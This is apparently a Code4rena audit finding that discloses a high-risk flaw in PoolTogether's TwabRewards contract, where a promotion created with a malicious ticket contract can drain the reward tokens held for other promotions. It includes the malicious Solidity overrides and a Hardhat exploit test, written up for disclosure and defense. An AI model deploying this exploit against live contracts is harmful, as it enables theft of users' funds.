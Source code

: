 ## Tags

- bug
- 3 (High Risk)
- sponsor confirmed

# [Malicious tickets can lead to the loss of all tokens](https://github.com/code-423n4/2021-12-pooltogether-findings/issues/1) 

# Handle

johnnycash


# Vulnerability details

## Impact

It allows an attacker to retrieve all the tokens of each promotions.


## Analysis

Anyone can create a new promotion using `createPromotion()`. An attacker can create a new malicious promotion with the following parameters:

- the address of a malicious ticket smart contract
- the token address from the targeted promotion(s)
- optionally, `_numberOfEpochs` equal to 0 to create this promotion for free

The only verification made on the ticket address given by [_requireTicket()](https://github.com/pooltogether/v4-periphery/blob/master/contracts/TwabRewards.sol#L230-L244) is that the smart contract must implement the `ITicket` interface.

The attacker can then call `claimRewards()` with its wallet address, the malicious promotion id and a single _epochId for the sake of clarity.

1. `_calculateRewardAmount()` is first called to get the reward amount with the following formula `(_promotion.tokensPerEpoch * _ticket.getAverageBalanceBetween()) / _ticket.getAverageTotalSuppliesBetween()`. The malicious ticket can return an arbitrary  `_averageBalance` and an `_averageTotalSupplies` of 1, leading to an arbitrary large reward amount.
2. `_promotion.token.safeTransfer(_user, _rewardsAmount)` is called. It transfers the amount of tokens previously computed to the attacker.

The attacker receives the tokens of other promotions without having spent anything.


## Proof of Concept

The malicious smart contract is a copy/paste of [TicketHarness.sol](https://github.com/pooltogether/v4-core/blob/master/contracts/test/TicketHarness.sol) and [Ticket.sol](https://github.com/pooltogether/v4-core/blob/master/contracts/Ticket.sol)with the following changes:

```
    /// @inheritdoc ITicket
    function getAverageTotalSuppliesBetween(
        uint64[] calldata _startTimes,
        uint64[] calldata _endTimes
    ) external view override returns (uint256[] memory) {
        uint256[] memory _balances = new uint256[](1);
        _balances[0] = uint256(1);
        return _balances;
    }

    /// @inheritdoc ITicket
    function getAverageBalanceBetween(
        address _user,
        uint64 _startTime,
        uint64 _endTime
    ) external view override returns (uint256) {
        return 1337;
    }
```

The test for HardHat is:

```
    describe('exploit()', async () => {
        it('this shouldnt happen', async () => {
            const promotionIdOne = 1;
            const promotionIdTwo = 2;

            await expect(createPromotion(ticket.address))
                .to.emit(twabRewards, 'PromotionCreated')
                .withArgs(promotionIdOne);
            
            let evilTicketFactory = await getContractFactory('EvilTicket');
            let evilTicket = await evilTicketFactory.deploy('EvilTicket', 'TICK', 18, wallet1.address);
            let createPromotionTimestamp = (await ethers.provider.getBlock('latest')).timestamp;
            await expect(twabRewards.connect(wallet2).createPromotion(
                evilTicket.address,
                rewardToken.address,
                tokensPerEpoch,
                createPromotionTimestamp,
                1,//epochDuration,
                0,//epochsNumber,
            )).to.emit(twabRewards, 'PromotionCreated')
              .withArgs(promotionIdTwo);

            await increaseTime(100);
            const epochIds = ['100'];
            await twabRewards.connect(wallet2).claimRewards(wallet2.address, promotionIdTwo, epochIds);
        });
    });
```

It results in the following error:

```
 1) TwabRewards
       exploit()
         this shouldnt happen:
     Error: VM Exception while processing transaction: reverted with reason string 'ERC20: transfer amount exceeds balance'
      at TwabRewardsHarness.verifyCallResult (@openzeppelin/contracts/utils/Address.sol:209)
      at TwabRewardsHarness.functionCallWithValue (@openzeppelin/contracts/utils/Address.sol:132)
      at TwabRewardsHarness.functionCall (@openzeppelin/contracts/utils/Address.sol:94)
      at TwabRewardsHarness._callOptionalReturn (@openzeppelin/contracts/token/ERC20/utils/SafeERC20.sol:92)
      at TwabRewardsHarness.safeTransfer (@openzeppelin/contracts/token/ERC20/utils/SafeERC20.sol:25)
      at TwabRewardsHarness.claimRewards (contracts/TwabRewards.sol:186)
```


## Tools Used

Text editor.


## Recommended Mitigation Steps

Maybe add a whitelist of trusted tickets?

